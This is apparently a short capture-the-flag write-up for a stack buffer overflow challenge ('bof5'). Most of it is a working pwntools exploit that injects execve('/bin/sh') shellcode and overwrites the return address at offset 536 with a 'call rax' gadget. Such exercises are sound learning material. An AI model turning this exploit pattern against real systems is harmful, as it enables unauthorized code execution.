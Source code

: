 Next, we need to find the offset to ret to overwrite with the address of `call rax;`

![alt text](/images/image-4.png)

Using ```cyclic -l``` finds an offset of 536.

Exploit:
```
#!/usr/bin/ python3

from pwn import*

context.binary = exe = ELF('./bof5', checksec=False)
p = process(exe.path)

offset = 536

shellcode = asm(
    '''
    mov rax, 0x3b                   # rax = 0x3b
    mov rdi, 29400045130965551      # 29400045130965551 = '/bin/sh'
    push rdi                        
    mov rdi, rsp                    # rdi trỏ tới chuỗi '/bin/sh'
    xor rsi, rsi                    # rsi = 0
    xor rdx, rdx                    # rdx = 0

    syscall                         
    ''', arch='amd64')              

call_rax = 0x0000000000401014

p.sendafter(b'> ', shellcode)

p.sendafter(b'> ', b'A' * offset + p64(call_rax))

p.interactive()
```
